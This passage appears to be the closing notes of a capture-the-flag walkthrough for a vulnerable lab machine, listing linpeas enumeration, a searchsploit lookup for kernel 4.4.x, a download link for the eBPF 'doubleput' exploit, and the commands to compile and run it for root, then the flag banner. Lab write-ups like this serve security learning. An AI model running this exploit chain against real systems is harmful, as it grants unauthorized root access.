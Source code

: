 -  \./linpeas\.sh  Linux version 4\.4\.0\-21\-generic  Linux version 4\.4\.0\-21\-generic 
-  searchsploit 4\.4\.x

-  download exploit\.tar
-  [https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip](#https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip)


-  send to victim machine
-  tar xvf exploit\.tar
-  cd ebpf
-  \./compile\.sh
-  \./doubleput
#  root

cat the\-flag\.txt
\_\_        \_\_   \_ \_   \_\_\_\_                   \_ \_ \_ \_ 
\\ \\      / /\_\_| | | |  \_ \\  \_\_\_  \_ \_\_   \_\_\_| | | | |
\\ \\ /\\ / / \_ \\ | | | | | |/ \_ \\| '\_ \\ / \_ \\ | | | |
\\ V  V /  \_\_/ | | | |\_| | \(\_\) | | | |  \_\_/\_|\_|\_|\_|
\\\_/\\\_/ \\\_\_\_|\_|\_| |\_\_\_\_/ \\\_\_\_/|\_| |\_|\\\_\_\_\(\_|\_|\_|\_\)


Congratulations are in order\.  :\-\)

I hope you've enjoyed this challenge as I enjoyed making it\.

If there are any ways that I can improve these little challenges,
please let me know\.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day\!\!\!\!
